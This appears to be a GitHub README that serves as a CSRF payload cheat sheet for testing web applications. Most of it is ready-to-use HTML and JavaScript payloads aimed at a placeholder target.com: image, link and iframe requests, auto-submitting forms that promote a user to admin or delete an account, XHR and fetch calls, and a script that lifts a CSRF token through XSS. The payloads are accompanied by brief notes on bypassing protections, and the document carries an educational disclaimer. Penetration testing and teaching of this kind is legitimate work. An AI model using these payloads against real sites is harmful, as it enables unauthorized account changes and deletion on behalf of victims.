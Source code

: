 # CSRF (Cross-Site Request Forgery) Payload Cheat Sheet

This cheat sheet contains a list of payloads and methods to test for CSRF vulnerabilities. CSRF vulnerabilities occur when unauthorized commands are executed on behalf of authenticated users. **Note:** These payloads are strictly for educational and authorized testing purposes only.

---

## Contents

- [Basic CSRF Payloads](#basic-csrf-payloads)
- [GET Request CSRF Payloads](#get-request-csrf-payloads)
- [POST Request CSRF Payloads](#post-request-csrf-payloads)
- [CSRF with HTML Forms](#csrf-with-html-forms)
- [JavaScript-Based CSRF Payloads](#javascript-based-csrf-payloads)
- [Bypassing CSRF Protections](#bypassing-csrf-protections)
- [Advanced CSRF Techniques](#advanced-csrf-techniques)

---

## Basic CSRF Payloads

A basic CSRF attack involves forcing a victim's browser to execute an unwanted request. This can be as simple as embedding a link that the victim clicks while authenticated.

```html
<img src="http://target.com/vulnerable-endpoint?param=value">
```

---

## GET Request CSRF Payloads

GET-based CSRF attacks often use images, iframes, or links to trick users into triggering actions with a simple click.

### Image-Based CSRF

An `<img>` tag can be used to send an unauthorized GET request.

```html
<img src="http://target.com/vulnerable-endpoint?action=delete&user=123">
```

### Link-Based CSRF

A clickable link, if accessed by the target user, will execute the unwanted action.

```html
<a href="http://target.com/vulnerable-endpoint?action=update&status=enabled">Click here</a>
```

### Iframe-Based CSRF

Using an iframe, you can execute the request as soon as the page loads.

```html
<iframe src="http://target.com/vulnerable-endpoint?action=modify&user=456"></iframe>
```

---

## POST Request CSRF Payloads

POST requests generally require an HTML form submission to exploit, as some parameters must be submitted via HTTP POST.

### Auto-Submitting Form

The following form will automatically submit on page load, executing the POST request without user interaction.

```html
<form action="http://target.com/vulnerable-endpoint" method="POST">
    <input type="hidden" name="username" value="victim">
    <input type="hidden" name="role" value="admin">
    <input type="hidden" name="action" value="promote">
    <input type="submit" value="Submit">
</form>

<script>
    document.forms[0].submit();
</script>
```

---

## CSRF with HTML Forms

Using hidden HTML forms can effectively execute CSRF attacks by embedding malicious requests.

### Hidden Form with Auto-Submission

The form contains hidden fields, automatically sending sensitive parameters to the vulnerable endpoint.

```html
<form action="http://target.com/account/delete" method="POST">
    <input type="hidden" name="user_id" value="12345">
    <input type="hidden" name="confirm" value="yes">
</form>

<script>
    document.forms[0].submit();
</script>
```

### Clickable Button Form

If automatic submission is not feasible, you can make the user click a button.

```html
<form action="http://target.com/account/update" method="POST">
    <input type="hidden" name="status" value="active">
    <input type="submit" value="Click here to activate">
</form>
```

---

## JavaScript-Based CSRF Payloads

JavaScript can be used to make CSRF requests in environments where it is allowed. Be aware that Content Security Policy (CSP) or Same-Origin Policy (SOP) may prevent JavaScript-based CSRF.

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://target.com/vulnerable-endpoint", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("param1=value1&param2=value2");
</script>
```

---

## Bypassing CSRF Protections

Many modern applications use tokens and other mechanisms to mitigate CSRF attacks. Here are some techniques for bypassing CSRF protections:

### Referer Header Spoofing

If the application only checks for the presence of a `Referer` header, some insecure browser configurations may allow spoofing the header.

### Cookie Reuse

For applications relying solely on cookies without CSRF tokens, an attacker can trigger requests directly, as the browser will send stored cookies.

### Using XSS to Bypass CSRF Protections

If an XSS vulnerability is present, you can extract CSRF tokens dynamically and perform the CSRF attack via JavaScript.

```javascript
<script>
    // Assuming token can be accessed via JavaScript
    var csrfToken = document.getElementsByName("csrf_token")[0].value;

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://target.com/vulnerable-endpoint", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("param=value&csrf_token=" + csrfToken);
</script>
```

---

## Advanced CSRF Techniques

Advanced CSRF attacks use more sophisticated techniques to bypass protections or achieve specific objectives.

### JSON CSRF

Some endpoints accept JSON data, which can complicate CSRF execution. However, JSON CSRF can sometimes be achieved through misconfigured CORS (Cross-Origin Resource Sharing).

```html
<script>
    fetch("http://target.com/api/vulnerable-endpoint", {
        method: "POST",
        body: JSON.stringify({ "action": "delete", "user_id": "123" }),
        headers: { "Content-Type": "application/json" }
    });
</script>
```

### Same-Site Scripting CSRF

If an attacker can embed a page within the target website (e.g., in an iframe), they can use it to send cross-origin requests, bypassing CSRF protections.

```html
<iframe src="http://target.com/vulnerable-page" style="display:none;"></iframe>
```

### Using `window.open` and `postMessage`

If the application allows cross-origin communication with `postMessage`, it may be possible to control actions through an opened window.

```html
<script>
    var win = window.open("http://target.com/vulnerable-page");
    win.postMessage("csrf_payload", "*");
</script>
```

---

## Additional Notes

- **Anti-CSRF Tokens**: Many modern applications use anti-CSRF tokens, which are unique tokens that must be present in each request. Applications not properly validating these tokens may still be vulnerable.
- **SameSite Cookies**: Setting cookies with the `SameSite` attribute restricts cookies from being sent with cross-site requests. This reduces CSRF risks, but insecure or legacy configurations may still allow CSRF.

---

### License

This cheat sheet is open-sourced and can be used for ethical testing and research. Unauthorized or illegal testing is prohibited.

---
